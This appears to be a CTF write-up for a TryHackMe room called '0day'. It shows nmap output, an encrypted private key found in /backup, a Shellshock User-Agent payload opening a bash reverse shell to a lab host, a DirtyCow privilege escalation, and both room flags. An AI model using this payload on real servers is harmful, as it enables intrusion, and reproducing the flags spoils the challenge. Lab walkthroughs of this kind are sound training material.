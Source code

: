 # 0DAY

![](../.gitbook/assets/74dd19035cdf4594bc0613e2383eed37.png)

## NMAP SCAN

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
```

## PORT 80 ENUMERATION

* /backup

```text
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
9zlECjERSysbUKYccnFknB1DwuJExD/erGRiLBYOGuMatc+EoagKkGpSZm4FtcIO
IrwxeyChI32vJs9W93PUqHMgCJGXEpY7/INMUQahDf3wnlVhBC10UWH9piIOupNN
SkjSbrIxOgWJhIcpE9BLVUE4ndAMi3t05MY1U0ko7/vvhzndeZcWhVJ3SdcIAx4g
/5D/YqcLtt/tKbLyuyggk23NzuspnbUwZWoo5fvg+jEgRud90s4dDWMEURGdB2Wt
w7uYJFhjijw8tw8WwaPHHQeYtHgrtwhmC/gLj1gxAq532QAgmXGoazXd3IeFRtGB
6+HLDl8VRDz1/4iZhafDC2gihKeWOjmLh83QqKwa4s1XIB6BKPZS/OgyM4RMnN3u
Zmv1rDPL+0yzt6A5BHENXfkNfFWRWQxvKtiGlSLmywPP5OHnv0mzb16QG0Es1FPl
xhVyHt/WKlaVZfTdrJneTn8Uu3vZ82MFf+evbdMPZMx9Xc3Ix7/hFeIxCdoMN4i6
8BoZFQBcoJaOufnLkTC0hHxN7T/t/QvcaIsWSFWdgwwnYFaJncHeEj7d1hnmsAii
b79Dfy384/lnjZMtX1NXIEghzQj5ga8TFnHe8umDNx5Cq5GpYN1BUtfWFYqtkGcn
vzLSJM07RAgqA+SPAY8lCnXe8gN+Nv/9+/+/uiefeFtOmrpDU2kRfr9JhZYx9TkL
wTqOP0XWjqufWNEIXXIpwXFctpZaEQcC40LpbBGTDiVWTQyx8AuI6YOfIt+k64fG
rtfjWPVv3yGOJmiqQOa8/pDGgtNPgnJmFFrBy2d37KzSoNpTlXmeT/drkeTaP6YW
RTz8Ieg+fmVtsgQelZQ44mhy0vE48o92Kxj3uAB6jZp8jxgACpcNBt3isg7H/dq6
oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk
cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE
99x7Dh8YXnj1As2gY+MMQHVuvCpnwRR7XLmK8Fj3TZU+WHK5P6W5fLK7u3MVt1eq
Ezf26lghbnEUn17KKu+VQ6EdIPL150HSks5V+2fC8JTQ1fl3rI9vowPPuC8aNj+Q
Qu5m65A5Urmr8Y01/Wjqn2wC7upxzt6hNBIMbcNrndZkg80feKZ8RD7wE7Exll2h
v3SBMMCT5ZrBFq54ia0ohThQ8hklPqYhdSebkQtU5HPYh+EL/vU1L9PfGv0zipst
gbLFOSPp+GmklnRpihaXaGYXsoKfXvAxGCVIhbaWLAp5AybIiXHyBWsbhbSRMK+P
-----END RSA PRIVATE KEY-----
```

## SHELLSHOCK

![](../.gitbook/assets/465d919534474906b6e4396e8bff5707.png)

### GETTIN A SHELL

```text
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.9.214.87/2332 0>&1'
```

![](../.gitbook/assets/63b2d1ca62d64d87a48c0640a0ed7944.png)

![](../.gitbook/assets/43eb4a480b6a422a92a6269cdce6bacf.png)

## PRIVESC

* USED DIRTYCOW \(COWROOT\)

![](../.gitbook/assets/5c1313528dbe4c0e91e25dcc49b3fb37.png)

## FLAGS

### USER

THM{Sh3llSh0ck\_r0ckz}

### ROOT

THM{g00d\_j0b\_0day\_is\_Pleased}

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

